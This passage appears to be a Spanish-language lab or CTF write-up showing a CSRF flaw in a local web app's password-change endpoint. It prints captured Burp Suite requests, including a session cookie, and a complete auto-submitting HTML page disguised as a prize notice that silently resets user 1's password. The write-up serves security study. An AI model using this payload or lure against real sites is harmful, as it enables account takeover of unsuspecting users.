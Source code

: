 Si le damos a `cambiar contraseña` veremos que podemos elegir el `ID` que queramos y la nueva contraseña por lo que esto podria ser atacado con un `CSRF` ya que tambien vemos que admite un metodo `GET` mediante la `URL` si capturamos la peticion con `BurpSuite` veremos lo siguiente:

```
POST /change-password HTTP/1.1
Host: 192.168.1.150:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://192.168.1.150:5000
Connection: keep-alive
Referer: http://192.168.1.150:5000/change-password
Cookie: session=eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImRpc2VvIn0.Z9v37Q.DdNvpPz5rUrk9nDouo0cQZTsdYM
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=1&new_password=1234
```

Pero si lo cambiamos a `GET`:

```
GET /change-password?user_id=1&new_password=1234 HTTP/1.1
Host: 192.168.1.150:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://192.168.1.150:5000
Connection: keep-alive
Referer: http://192.168.1.150:5000/change-password
Cookie: session=eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImRpc2VvIn0.Z9v37Q.DdNvpPz5rUrk9nDouo0cQZTsdYM
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Veremos que tambien se puede y no esta validando la entrada de la `URL`, por lo que podremos poner cualquier `ID` y se le cambiaria la contraseña a dicho usuario, podriamos crearnos esta pagina maliciosa:

```html
<html>
  <body>
    <h1>¡Felicidades! Has ganado un premio!</h1>
    <p>Haz clic aquí para obtener tu premio.</p>
    <!-- Formulario malicioso que envía un POST a /change-password -->
    <form id="csrf_form" action="http://localhost:5000/change-password" method="POST">
      <!-- Parámetros ocultos para el cambio de contraseña -->
      <input type="hidden" name="user_id" value="1"> <!-- ID de usuario objetivo -->
      <input type="hidden" name="new_password" value="newpassword123"> <!-- Nueva contraseña -->
      <input type="submit" value="Cambiar contraseña">
    </form>

    <script>
      // El formulario se envía automáticamente sin que el usuario lo sepa
      document.getElementById('csrf_form').submit();
    </script>
  </body>
</html>
```